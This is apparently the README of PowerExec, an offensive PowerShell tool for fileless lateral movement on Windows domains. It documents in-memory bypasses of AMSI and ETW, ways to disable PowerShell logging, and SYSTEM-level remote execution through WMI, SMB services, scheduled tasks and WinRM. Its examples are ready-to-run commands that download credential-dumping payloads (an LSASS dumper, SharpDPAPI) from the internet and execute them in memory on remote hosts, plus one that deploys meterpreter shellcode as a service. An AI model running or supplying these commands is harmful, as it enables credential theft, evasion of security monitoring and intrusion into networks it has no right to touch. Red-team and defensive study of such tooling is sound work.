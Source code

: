 # PowerExec

PowerExec combines various bypass techniques and execution methods for fileless lateral movement.


## Functions

```
Invoke-PowerExec                -   runs PowerShell script block on remote computers through various execution methods
New-PowerLoader                 -   builds script block for in-memory execution of various payload types
```


## Payload types

The payload type must be specified within the function `New-PowerLoader`:

| Type      | Description                               |
| --------- | ----------------------------------------- |
| PoSh      | PowerShell script                         |
| NetAsm    | .NET assembly executable                  |
| Shellcode | Shellcode in binary format (experimental) |

Resulting PowerShell script block is built either from a local payload file or from a remote payload using a download cradle.


## Bypass techniques

Bypass techniques can be specified within the function `New-PowerLoader`:

| Bypass | Description                                              |
| ------ | -------------------------------------------------------- |
| AMSI   | Bypass Antimalware Scan Interface via in-memory patching |
| ETW    | Bypass Event Tracing for Windows via in-memory patching  |
| SBL    | Disable PowerShell Script Block Logging                  |
| PML    | Disable PowerShell Module Logging                        |
| PRM    | Disable PowerShell Readline Module                       |


## Execution methods

The execution method must be specified within the function `Invoke-PowerExec`:

| Method          | Description                                                                       |
| --------------- | --------------------------------------------------------------------------------- |
| CimProcess      | Create process via WMI                                                            |
| CimService      | Create temporary service running as NT AUTHORITY\SYSTEM via WMI                   |
| CimSubscription | Create temporary WMI event subscription (experimental)                            |
| CimTask         | Create temporary scheduled task running as NT AUTHORITY\SYSTEM via WMI            |
| SmbService      | Create temporary service running as NT AUTHORITY\SYSTEM via SMB named pipe        |
| SmbTask         | Create temporary scheduled task running as NT AUTHORITY\SYSTEM via SMB named pipe |
| WinRM           | Run powershell via Windows Remote Management                                      |

For WMI methods, the transport protocol can be chosen between DCOM and WSMAN.

The execution output is retrieved regardless of the method used.


## Examples

Run a PowerShell script through WinRM while bypassing AMSI, PowerShell Module Logging and Script Block Logging:

```
PS C:\> $payload = New-PowerLoader -Type PoSh -FileUrl 'https://raw.githubusercontent.com/tmenochet/PowerDump/master/LsassDump.ps1' -ArgumentList 'Invoke-LsassDump' -Bypass AMSI,PML,SBL
PS C:\> Invoke-PowerExec -ScriptBlock $payload -Method WinRM -ComputerDomain ADATUM.CORP -ComputerFilter Servers
```

Run a .NET assembly through WMI while bypassing AMSI and ETW:

```
PS C:\> $payload = New-PowerLoader -Type NetAsm -FileUrl 'https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.5_x64/SharpDPAPI.exe' -ArgumentList 'machinecredentials' -Bypass ETW,AMSI
PS C:\> Invoke-PowerExec -ScriptBlock $payload -Method CimProcess -Protocol Dcom -ComputerList 192.168.1.1,192.168.1.2
```

Run a shellcode through a service:

```
PS C:\> New-PowerLoader -Type Shellcode -FilePath .\meterpreter.bin | Invoke-PowerExec -ComputerList 192.168.1.1 -Method CimService -Protocol Dcom
```


## Credits

  * https://rastamouse.me/blog/asb-bypass-pt3/
  * https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
  * https://www.bc-security.org/post/powershell-logging-obfuscation-and-some-newish-bypasses-part-1/
  * https://blog.xpnsec.com/hiding-your-dotnet-etw
  * https://www.fireeye.com/blog/threat-research/2017/03/wmimplant_a_wmi_ba.html
  * https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/
